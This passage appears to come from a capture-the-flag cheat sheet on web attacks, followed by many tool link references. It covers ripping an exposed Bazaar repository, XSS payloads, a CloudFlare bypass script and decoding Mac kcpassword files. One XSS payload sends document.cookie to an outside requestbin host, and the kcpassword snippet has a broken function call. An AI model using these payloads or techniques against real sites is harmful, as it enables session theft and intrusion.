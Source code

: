 * Bazaar `.bzr`

	If you see a publically accessible `.bzr` directory, you can use `bzr branch http://site output-directory` to download it. Or, use this utility: [https://github.com/kost/dvcs-ripper](https://github.com/kost/dvcs-ripper)

* [XSS]/[Cross-site scripting]

	[XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet). [Cross-site scripting], vulnerability where the user can control rendered [HTML] and ideally inject [JavaScript] code that could drive a browser to any other website or make any malicious network calls. Example test payload is as follows:


```
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```

	Typically you use this to steal cookies or other information, and you can do this with an online requestbin.

```
<img src="#" onerror="document.location='http://requestbin.fullcontact.com/168r30u1?c' + document.cookie">
```
* new usefull XSS cheat sheet : 'https://portswigger.net/web-security/cross-site-scripting/cheat-sheet'
* [CloudFlare Bypass](https://github.com/Anorov/cloudflare-scrape)

	If you need to script or automate against a page that uses the I'm Under Attack Mode from CloudFlare, or DDOS protection, you can do it like this with linked Python module.

``` python
#!/usr/bin/env python

import cfscrape

url = 'http://yashit.tech/tryharder/'

scraper = cfscrape.create_scraper()
print scraper.get(url).content
```

* [XSStrike]

	A command-line tool for automated [XSS] attacks. Seems to function like how [sqlmap] does.

* [`wpscan`][wpscan]

	* A Ruby script to scan and do reconnaissance on a [Wordpress] application.

* Mac AutoLogin Password Cracking

Sometimes, given an Mac autologin password file `/etc/kcpassword`, you can crack it with this code:

```
def kcpasswd(ciphertext):
    key = '7d895223d2bcddeaa3b91f'
    while len(key) < (len(ciphertext)*2):
        key = key + key
    key = binasciiunhexlify(key)
    result = ''
    for i in range(len(ciphertext)):
        result += chr(ord(ciphertext[i]) ^ (key[i]))
    return result
```
* XXE : XML External Entity


[steghide]: http://steghide.sourceforge.net/
[snow]: http://www.darkside.com.au/snow/
[cribdrag.py]: https://github.com/SpiderLabs/cribdrag
[cribdrag]: https://github.com/SpiderLabs/cribdrag
[pcap]: https://en.wikipedia.org/wiki/Pcap
[PCAP]: https://en.wikipedia.org/wiki/Pcap
[Wireshark]: https://www.wireshark.org/
[Network Miner]: http://www.netresec.com/?page=NetworkMiner
[PCAPNG]: https://github.com/pcapng/pcapng
[pcapng]: https://github.com/pcapng/pcapng
[pdfcrack]: http://pdfcrack.sourceforge.net/index.html
[GitDumper.sh]: https://github.com/internetwache/GitTools
[pefile]: https://github.com/erocarrera/pefile
[Python]: https://www.python.org/
[PE]: https://en.wikipedia.org/wiki/Portable_Executable
[Portable Executable]: https://en.wikipedia.org/wiki/Portable_Executable
[hipshot]: https://bitbucket.org/eliteraspberries/hipshot
[QR code]: https://en.wikipedia.org/wiki/QR_code
[QR codes]: https://en.wikipedia.org/wiki/QR_code
[QR]: https://en.wikipedia.org/wiki/QR_code
[zbarimg]: https://linux.die.net/man/1/zbarimg
[Linux]: https://en.wikipedia.org/wiki/Linux
[Ubuntu]: https://en.wikipedia.org/wiki/Ubuntu_(operating_system)
[Wine]: https://en.wikipedia.org/wiki/Wine_(software)
[Detect DTMF Tones]: http://dialabc.com/sound/detect/index.html
[dnSpy]: https://github.com/0xd4d/dnSpy
[Windows]: https://en.wikipedia.org/wiki/Microsoft_Windows
[.NET]: https://en.wikipedia.org/wiki/.NET_Framework
[Vigenere Cipher]: https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher
[PDF]: https://en.wikipedia.org/wiki/Portable_Document_Format
[Playfair Cipher]: https://en.wikipedia.org/wiki/Playfair_cipher
[bcompiler]: http://php.net/manual/en/book.bcompiler.php
[PHP]: https://en.wikipedia.org/wiki/PHP
[GET]: https://en.wikipedia.org/wiki/Hypertext_Transfer_Protocol#Request_methods
[pdfdetach]: https://www.systutorials.com/docs/linux/man/1-pdfdetach/
[sqlmap]: https://github.com/sqlmapproject/sqlmap
[hachoir-subfile]: https://pypi.python.org/pypi/hachoir-subfile/0.5.3
[wget]: https://en.wikipedia.org/wiki/Wget
[git]: https://git-scm.com/
[Cross-site scripting]: https://en.wikipedia.org/wiki/Cross-site_scripting
[XSS]: https://en.wikipedia.org/wiki/Cross-site_scripting
[HTML]: https://en.wikipedia.org/wiki/HTML
[JavaScript]: https://en.wikipedia.org/wiki/JavaScript
[PEiD]: https://www.aldeid.com/wiki/PEiD
[wpscan]: https://wpscan.org/
[Ruby]: https://www.ruby-lang.org/en/
[Wordpress]: https://en.wikipedia.org/wiki/WordPress
[dumpzilla]: http://www.dumpzilla.org/
[hexed.it]: https://hexed.it/
[Magic Numbers]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Magic Number]: https://en.wikipedia.org/wiki/Magic_number_(programming)#Magic_numbers_in_files
[Edit This Cookie]: http://www.editthiscookie.com/
[cookie]: https://en.wikipedia.org/wiki/HTTP_cookie
[cookies]: https://en.wikipedia.org/wiki/HTTP_cookie
[formatStringExploiter]: http://formatstringexploiter.readthedocs.io/en/latest/index.html
[format string vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[printf vulnerability]: https://www.owasp.org/index.php/Format_string_attack
[Java]: https://en.wikipedia.org/wiki/Java_(programming_language)
[JAR]: https://en.wikipedia.org/wiki/JAR_(file_format)
[OpenStego]: https://www.openstego.com/
[Stegsolve.jar]: http://www.caesum.com/handbook/stego.htm
[Stegsolve]: http://www.caesum.com/handbook/stego.htm
[tcpflow]: https://github.com/simsong/tcpflow
[PcapXray]: https://github.com/Srinivas11789/PcapXray
[Atbash Cipher]: https://en.wikipedia.org/wiki/Atbash
[TestDisk]: https://www.cgsecurity.org/Download_and_donate.php/testdisk-7.1-WIP.linux26.tar.bz2
[PNG]: https://en.wikipedia.org/wiki/Portable_Network_Graphics
[jd-gui]: https://github.com/java-decompiler/jd-gui
[dex2jar]: https://github.com/pxb1988/dex2jar
[apktool]: https://ibotpeaches.github.io/Apktool/
[RCE]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[remote code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[arbitrary code execution]: https://en.wikipedia.org/wiki/Arbitrary_code_execution
[XSStrike]: https://github.com/UltimateHackers/XSStrike
[nishang]: https://github.com/samratashok/nishang
[Malboge]: https://en.wikipedia.org/wiki/Malbolge
[Piet]: https://esolangs.org/wiki/Piet
[npiet]: https://www.bertnase.de/npiet/
[LC4]: https://www.schneier.com/blog/archives/2018/05/lc4_another_pen.html
[Empire]: https://github.com/EmpireProject/Empire
[Base64]: https://en.wikipedia.org/wiki/Base64
[Base32]: https://en.wikipedia.org/wiki/Base32
[Base85]: https://en.wikipedia.org/wiki/Ascii85
[fcrackzip]: https://github.com/hyc/fcrackzip
[zsteg]: https://github.com/zed-0xff/zsteg
[jsteg]: https://github.com/lukechampine/jsteg
[jstego]: https://sourceforge.net/projects/jstego/
[StegCracker]: https://github.com/Paradoxis/StegCracker
[StegSeek]: https://github.com/RickdeJager/stegseek
[Base41]: https://github.com/sveljko/base41/blob/master/python/base41.py
[Base65535]: https://github.com/qntm/base65536
[Easy Python Decompiler]: https://github.com/aliansi/Easy-Python-Decompiler-v1.3.2
[photorec]: https://www.cgsecurity.org/wiki/PhotoRec
[smbmap]: https://github.com/ShawnDEvans/smbmap
[oletools]: https://github.com/decalage2/oletools
[impacket]: https://github.com/SecureAuthCorp/impacket
[Responder]: https://github.com/SpiderLabs/Responder
[Responder.py]: https://github.com/SpiderLabs/Responder
[International Code of Signals Maritime]: https://en.wikipedia.org/wiki/International_Code_of_Signals
[maritime flags translator]: https://www.dcode.fr/maritime-signals-code
[static-binaries]: https://github.com/andrew-d/static-binaries